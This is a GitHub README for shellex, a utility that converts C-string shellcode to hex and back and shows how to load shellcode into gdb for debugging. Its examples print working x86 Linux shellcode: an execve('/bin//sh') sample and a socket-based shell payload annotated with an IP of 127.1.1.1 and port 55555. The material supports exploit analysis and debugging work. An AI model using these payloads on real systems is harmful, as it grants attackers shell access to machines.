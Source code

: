 # shellex
**WARNING**: the ugliest code in the world

C-shellcode to hex converter

Are you having problems converting C-shellcodes to HEX (maybe c-comments+ASCII mixed?) 

Here is shellex. If the shellcode can be compiled in a C compiler shellex can convert it.

Just execute shellex, paste the shellcode c-string and press ENTER. 

To end use Control+Z(Windows)/Control+D(Linux)

Converting c-shellcode-multi-line-hex+mixed_ascii (pay attention in the mixed part **\x68//sh\x68/bin\x89**):
```
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"
```

shellex output:
```
6A 17 58 31 DB CD 80 6A 0B 58 99 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 89 E1 CD 80
```

Now you can copy the output & paste it to Immunity Debugger, ollydbg, x64dbg, 010 hexadecimal editor etc.

Converting c-shellcode-multi-line-with-comments:
```
"\x68"
"\x7f\x01\x01\x01"  // <- IP:  127.1.1.1
"\x5e\x66\x68"
"\xd9\x03"          // <- Port: 55555
"\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02"
"\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79"
"\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a"
"\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
"\xeb\xce"
```

shellex output:
```
68 7F 01 01 01 5E 66 68 D9 03 5F 6A 66 58 99 6A 01 5B 52 53 6A 02 89 E1 CD 80 93 59 B0 3F CD 80 49 79 F9 B0 66 56 66 57 66 6A 02 89 E1 6A 10 51 53 89 E1 CD 80 B0 0B 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 EB CE
```

Do you need the shellex output as a new c-shellcode-string? just use -h parameter, example converting the shellex output:
```
./shellex -h 6A 17 58 31 DB CD 80 6A 0B 58 99 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 89 E1 CD 80

\x6A\x17\x58\x31\xDB\xCD\x80\x6A\x0B\x58\x99\x52\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x52\x53\x89\xE1\xCD\x80
```

## Installation

```
git clone https://github.com/David-Reguera-Garcia-Dreg/shellex.git
```

### For Windows:

binary: shellex\bins\shellex.exe

### For Linux

Deps:

```
sudo apt-get install tcc
```

binary: shellex/linuxbins/shellex

## Executing shellcode in gdb 

* execute shellex 
* enter the shellcode:
```
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"
```
* press enter
* press Control+D
* convert the shellex output to C-Hex-String with shellex -h:
```
shellex -h 6A 17 58 31 DB CD 80 6A 0B 58 99 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 89 E1 CD 80
```
* write the shellcode to a file as raw binary data with "echo":
```
echo -n "\x6A\x17\x58\x31\xDB\xCD\x80\x6A\x0B\x58\x99\x52\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x52\x53\x89\xE1\xCD\x80" > /tmp/sc
```
* gdb /bin/ls
* starti

Write the binary file to the current instruction pointer:

for 32 bits:
```
restore /tmp/sc binary $eip
x/30b $eip
x/15i $eip
```

for 64 bits:
```
restore /tmp/sc binary $rip
x/30b $rip
x/15i $rip
```

Done! You can debug the shellcode

## Compilation

For Windows just use Visual Studio 2013
* https://my.visualstudio.com/Downloads?q=visual%20studio%202013&wt.mc_id=o~msft~vscom~older-downloads
* https://go.microsoft.com/fwlink/?LinkId=532495&clcid=0x409

For Linux just: 
```
cd shellex/shellex
gcc -o shellex shellex.c
./shellex
```



